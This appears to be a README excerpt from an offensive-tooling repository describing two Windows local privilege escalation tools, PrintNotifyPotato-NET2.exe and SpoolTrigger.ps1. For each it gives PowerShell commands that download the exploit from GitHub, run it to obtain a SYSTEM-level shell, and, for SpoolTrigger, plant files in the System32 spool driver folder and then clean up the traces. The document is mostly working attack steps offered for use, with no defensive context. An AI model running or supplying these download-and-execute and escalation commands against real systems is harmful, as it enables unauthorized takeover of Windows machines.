 ## PrintNotifyPotato-NET2.exe

|Function name|Description|Privileges|Screenshot|
|---|---|---|---|
|PrintNotifyPotato-NET2|Local privilege escalation|Administrator|[PrintNotifyPotato](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/LPE.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/PrintNotifyPotato-NET2.exe" -OutFile "PrintNotifyPotato-NET2.exe"
```

<br />

**execute:**
```powershell
.\PrintNotifyPotato-NET2.exe whoami
.\PrintNotifyPotato-NET2.exe cmd interactive
```

<br />

## SpoolTrigger.ps1

|Function name|Description|Privileges|Screenshot|Credits|
|---|---|---|---|---|
|SpoolTrigger|Local privilege escalation|Administrator|[SpoolTrigger](https://user-images.githubusercontent.com/23490060/222120179-ae2e2b14-fe3e-453e-a494-dcf1c84dd270.jpg)|@404death|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/LPE/bin.zip" -OutFile "$Env:TMP\bin.zip"
```

<br />

**execute:**
```powershell
# Expand ZIP archive
Expand-Archive -Path "$Env:TMP\bin.Zip" -DestinationPath "$Env:TMP" -force
cd "$Env:TMP\bin"

# Move files to comrrespondent directory
Move-Item -Path "*" -Destination "$Env:WINDIR\System32\spool\drivers\x64\3\" -Force
cd "$Env:WINDIR\System32\spool\drivers\x64\3"
.\SpoolTrigger.ps1
whoami

# CleanUp
Stop-Service -Name "PrintNotify" -Force
Remove-Item -Path "$Env:TMP\bin" -Force
Remove-Item -Path "$Env:TMP\bin.zip" -Force
Remove-Item -Path "$Env:WINDIR\System32\spool\drivers\x64\3\bin" -Force
```
